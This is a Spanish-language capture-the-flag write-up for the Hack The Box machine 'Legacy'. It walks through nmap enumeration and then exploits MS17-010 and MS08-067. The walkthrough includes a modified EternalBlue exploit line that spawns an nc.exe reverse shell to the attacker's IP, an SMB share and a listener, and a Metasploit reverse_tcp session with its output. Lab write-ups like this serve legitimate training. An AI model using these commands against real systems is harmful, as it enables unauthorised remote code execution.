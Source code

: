 # Legacy
<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      <img src="portadas/Legacy.png" alt="Legacy" style="max-width:320px; width:100%; height:auto;"/>
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>SMB Enumeration</li>
        <li>EternalBlue Exploitation (MS17-010) [Triple Z Exploit]</li>
        <li>Privilege Escalation post-EternalBlue</li>
      </ul>
    </td>
  </tr>
</table>Eternalblue Exploitation (MS17-010) [Triple Z Exploit]


## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.4 -oG allports
```

```shell
PORT      STATE    SERVICE      REASON
135/tcp   open     msrpc        syn-ack ttl 127
139/tcp   open     netbios-ssn  syn-ack ttl 127
445/tcp   open     microsoft-ds syn-ack ttl 127

```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p135,139,445 10.10.11.4 -oN targeted
```
vemos como el sistema que nos enfretamos es un windows antiguo por ello vamos a realizar un escaneo aún más concreto buscando las vuulnerabilidades más básicas de windows antiguos como es Eternal blue.

```shell
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
```
Con el siguiente comando hacemos el escaneo :

```shell
nmap -sV -p 135,139,445 --script "smb-enum-shares,smb-enum-users,smb-os-discovery,smb-vuln-ms08-067,smb-vuln-ms17-010,smb-security-mode" 10.10.10.4
```
vemos que la máquina es vulnerable y de varias maneras , voy a explotarlas las dos:

la primera que nos encontramos es :
```shell
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
```

Y la segunda vulnerabilidad importante que encontramos es :

```shell
smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
```

## Explotacion CVE-2017-0143

- Qué es: vulnerabilidad de ejecución remota en el servidor SMBv1 de Windows; permite que un atacante envíe paquetes especialmente construidos y ejecute código arbitrario en el equipo objetivo. 

- Sistemas afectados: varias versiones de Windows que soportaban SMBv1 (Windows 7/Server 2008/2012, Windows 8.1, Windows 10, etc.); fue corregida en el boletín MS17-010 publicado el 14 de marzo de 2017. 


- Impacto / contexto histórico: la explotación pública (EternalBlue) filtrada por los Shadow Brokers fue usada por el ransomware WannaCry y otros ataques que causaron infecciones masivas. Esto lo convirtió en un vector crítico de propagación lateral.




Usando el siguiente repositorio:
```shell
https://github.com/worawit/MS17-010
```

Podemos ejecutar el `Eternal blue` para ello modificamos el fichero `zzz_exploit.py` y en ese fichero modificamos la siguiente linea para entablarnos una una shell 

```shell
service_exec (conn,'cmd /c \\10.10.14.9\smbFolder\nc.exe -e cmd 10.10.14.9 443' )
```
Para obtener `nc.exe` se encuentra en el repositorio de las SecList en `/Web-Shells/FuzzDB/nc.ex`

Por otro lado tenemos que compartir el recurso y luego que se sincronice con el directorio actual de trabajo $(pwd)
```shell
smbserver.py smbFolder $(pwd)  
```

Por último por otro lado nos ponemos en escucha por el puerto 443 con `nc` de la siguiente manera para tener una consola interactiva:

```shell
rlwrap nc -nlvp 443
```

Finalmente ejecutamos el código:
```shell
python2 zzz.exploit.py 10.10.10.4 browser
```

Para obtener las flags lo explico en explotando la siguiente vulnerabilidad.


## Explotación CVE-2008-4250

- Vulnerabilidad crítica en el servicio Server de Windows que permitía, mediante un paquete RPC mal formado, provocar un desbordamiento y ejecutar código remoto sin autenticación.

- Afectaba Windows 2000 / XP / Server 2003 (y similares); permitió que gusanos como Conficker se propagaran masivamente.

Para explotarlo de esta manera lo mas fácil es buscar algún exploit existente que nos permita hacerlo, para ellos utilizamos el siguiente comando:

```shell
searchsploit ms08-067
```
y obtenemos los siguientes resultados en lso que existen varios:

```shell
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
Microsoft Windows - 'NetAPI32.dll' Code Execution (Python) (MS08-067)        | windows/remote/40279.py
Microsoft Windows Server - Code Execution (MS08-067)                         | windows/remote/7104.c
Microsoft Windows Server - Code Execution (PoC) (MS08-067)                   | windows/dos/6824.txt
Microsoft Windows Server - Service Relative Path Stack Corruption (MS08-067) | windows/remote/16362.rb
Microsoft Windows Server - Universal Code Execution (MS08-067)               | windows/remote/6841.txt
Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)               | windows/remote/7132.py
```

En mi caso para probar una alternativa más automatizada he usado `metasploit` esta herramienta vamos poder utilizar los exploit más rápido.

- Cargamos metasploit

```shell
msfconsole
```

Buscamos si existe un POC con la vulnerabilidad
```shell
msf > search ms08-067
```
Encontramos que existe uno por lo tanto vamos a configurarlo y usarlo

```shell
use exploit/windows/smb/ms08_067_netapi
```

Para la configuración utilizamos los siguientes comandos 
```shell
set RHOSTS 10.10.10.4
set LHOST Ip
set PAYLOAD windows/meterpreter/reverse_tcp
check
```
Checkeamos que es vulnerable y vamos a poder entablar la revershell

```shell
[+] 10.10.10.4:445 - The target is vulnerable.
```

Ejecutamos el exploit

```shell
run
```

Obtenemos que la shell se ha podido hacer: 
```shell
[*] Started reverse TCP handler on 10.10.14.9:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.21/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (240 bytes) to 10.10.10.4
[*] Command shell session 1 opened (10.10.14.9:4444 -> 10.10.10.4:1032) at 2025-10-10 04:42:42 -0400
Shell Banner:
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

Buscamos las flags como en el caso anterior con los siguientes comandos.

```shell
dir C:\user.txt /s /b
dir C:\root.txt /s /b
```

```shell
C:\Documents and Settings\john\Desktop\user.txt
C:\Documents and Settings\Administrator\Desktop\root.txt
```
Por último las previsualizamos con el comando `type`

```shell
type "C:\Documents and Settings\john\Desktop\user.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```
